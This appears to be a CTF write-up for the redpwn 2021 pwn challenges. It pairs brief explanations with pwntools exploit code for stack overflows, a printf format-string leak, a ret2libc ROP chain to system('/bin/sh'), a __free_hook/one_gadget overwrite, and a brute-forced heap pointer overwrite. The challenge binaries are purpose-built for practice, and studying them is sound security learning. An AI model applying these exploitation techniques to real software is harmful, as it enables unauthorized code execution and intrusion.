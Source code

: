 # redpwn2021-pwn

[toc]

## beginner-generic-pwn-number-0(done)

simple stack overflow 

```python
cn.sendlineafter("message to cheer me up? :(", flat('a' *0x28, -1))
```

## ret2generic-flag-reader(done)

simple stack overflow return to .text

```python 
payload = flat('a' * 0x20, 1, 0x00000000004011F6)
cn.sendline(payload)
```

## printf-please(done)

printf format string vulnerability.

%p leak flag on the stack, and turn them into string.

```python
payload = flat("pleaseaa%70$p%71$p%72$p%73$p%74$p0x")
cn.sendline(payload)
a = cn.recvuntil('0x')[:-2]
a0 = codecs.decode(cn.recvuntil('0x')[:-2], 'hex')[::-1]
a0 += codecs.decode(cn.recvuntil('0x')[:-2], 'hex')[::-1]
a0 += codecs.decode(cn.recvuntil('0x')[:-2], 'hex')[::-1]
a0 += codecs.decode(cn.recvuntil('0x')[:-2], 'hex')[::-1]
a0 += codecs.decode(cn.recvuntil('0x')[1:-2], 'hex')[::-1]
print(a0)
```

## ret2the-unknown(done)

stack overflow.

return to the system function in libc.

```python 
libc = ELF("./libc-2.28.so")

main = 0x000000000401186

cn.sendlineafter("get there safely?", flat('a' * 0x20, 0, main))
cn.recvuntil("to get there: ")
printf = int(cn.recv(12), 16)
blibc  = printf - libc.sym['printf']
print("blibc: " + hex(blibc))
system = blibc + libc.sym['system']
binsh  = blibc + next(libc.search(b"/bin/sh\x00"))
poprdi = 0x0000000004012A3
ret    = 0x0000000004012A4

cn.sendline(flat('a'*0x20, 0, ret, poprdi, binsh, system))

```

## simultaneity(done)

the libc address is obtained by fixing te heap block from mmap and the libc offset, and writing to any address by offset.

when scanf accepts a large amount of data, the running order is: malloc, write to the target address, free.

so modify `free_hook` to `one_gadget`, and prefix it with a lot of zeros, so that it will be called to `onegadget` when it is free.

```python
cn.sendlineafter("how big?", str(0x300000))
cn.recvuntil("you are here: 0x")

heap = int(cn.recv(12), 16) - 0x10
print("heap: " + hex(heap))

blibc = heap+ 0x301000
print("blibc: " + hex(blibc))

libc = ELF("./libc.so.6")
len = libc.sym['__free_hook'] + 0x301000 - 0x10
print("len: " + hex(len))

cn.sendlineafter("how far?", str(len // 8))
cn.sendlineafter("what?", '0' * 0x800 + str(blibc + 0xe5456))

```

## image-identifier(done)

The program itself is a bit difficult to reverse, mainly for parsing files,
When parsing the file content, you can construct special file content that causes overflow when writing to the file, .text:0000000000004015F9, and modify the pointer stored in the heap block behind,
When you call `pngFooterValidate` later, you can change it to the `win` function.

```python

leng = 0x29
cn.sendlineafter("How large is your file?\n\n", str(leng))
pngheader = [0x89, 0x50, 0x4E, 0x47, 0x0D, 0x0A, 0x1A, 0x0A]
data = list(flat(bytes(pngheader), 'a').ljust(leng, b'\x00'))

data[11] = 0xd

data[29] = 0xc9
data[30] = 0xef 
data[31] = 0xf1
data[32] = 0xbd

data[0x24] = 0x30 - 1 - 8

# wow, this causes `updata_crc` to return 0x1818(win+4)
data[0x25] = 0x18
data[0x26] = 0x0b

# data[0x28] = 0x1

cn.sendafter("please send your image here:\n\n", bytes(data))
cn.sendlineafter("do you want to invert the colors?\n", "y")

```

About this magic data, `data[0x25] = 0x18, data[0x26] = 0x0b`, 

Blast it with the following script

```python

leng = 0x29
pngheader = [0x89, 0x50, 0x4E, 0x47, 0x0D, 0x0A, 0x1A, 0x0A]
data = list(flat(bytes(pngheader), 'a').ljust(leng, b'\x00'))

data[11] = 0xd

data[29] = 0xc9
data[30] = 0xef 
data[31] = 0xf1
data[32] = 0xbd

data[0x24] = 0x30 - 1 - 8


for i in range(0, 0xff):
    for j in range(0, 0xff):
        cn = process("./chal")
        cn.sendlineafter("How large is your file?\n\n", str(leng))
        # wow, this causes `updata_crc` to return 0x1818
        data[0x25] = i
        data[0x26] = j

        # data[0x28] = 0x1
        cn.sendafter("please send your image here:\n\n", bytes(data))
        cn.sendlineafter("do you want to invert the colors?\n", "y")

        time.sleep(0.5)

        print("i: " + hex(i) + "\nj: " + hex(j))

        if cn.poll() == None :
            print("!!!")
            break;

        cn.close()
```

The following data can be obtained: 

`i=0x04, j=0x40`: 0x4018e4 (main+185)

`i=0x07, j=0x7d`: 0x401179 (_start+9)

`i=0x0b, j=0xf3`: 0x4018ee (main+195) 

`i=0x11, j=0x15`: 0x4018c7 (main+156)

`i=0x15, j=0x37`: 0x40182b (main)

`i=0x18, j=0x0b`: 0x401818 (win+4) !!!!!!!!!!!

`i=0x1f, j=0x14`: 0x401169 (exit@plt+9)

`i=0x21, j=0xc7`: 0x4018e7 (main+188)

`i=0x22, j=0xfa`: 0x40117a (_start+10)

